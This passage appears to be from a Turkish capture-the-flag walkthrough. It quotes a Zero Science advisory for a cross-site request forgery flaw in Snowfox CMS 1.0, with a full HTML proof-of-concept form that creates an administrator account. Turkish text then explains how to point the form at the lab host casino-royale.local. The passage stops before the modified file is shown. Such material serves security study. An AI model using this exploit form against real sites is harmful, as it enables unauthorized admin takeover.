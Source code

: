 ```html

Vendor: Globiz Solutions
Product web page: http://www.snowfoxcms.org
Affected version: 1.0

Summary: Snowfox is an open source Content Management System (CMS)
that allows your website users to create and share content based
on permission configurations.

Desc: Snowfox CMS suffers from a cross-site request forgery
vulnerabilities. The application allows users to perform certain
actions via HTTP requests without performing any validity checks
to verify the requests. This can be exploited to perform certain
actions with administrative privileges if a logged-in user visits
a malicious web site.

Tested on: Apache/2.4.7 (Win32)
           PHP/5.5.6
           MySQL 5.6.14


Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience


Advisory ID: ZSL-2014-5205
Advisory URL: http://www.zeroscience.mk/en/vulnerabilities/ZSL-2014-5205.php



12.11.2014

-->


<html>
  <body>
    <form action="http://10.0.18.3/snowfox/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="lab@zeroscience.mk" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="USERNAME" />
      <input type="hidden" name="newPassword" value="PASSWORD" />
      <input type="hidden" name="confirmPassword" value="PASSWORD" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
Html dosyasını okuduktan sonra içeride bir html formu oluşturukmuş ve bir post isteği attığımızı görüyoruz ancak düzenlememiz gereken yerler var `action` kısmını `http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create` şeklinde değiştirelim. `username`, `newPassword`, `confirmPassword` ve `emailAddress` değişiklikler yapıldıkan sonra dosyanın son hali aşağıda verilmiştir.
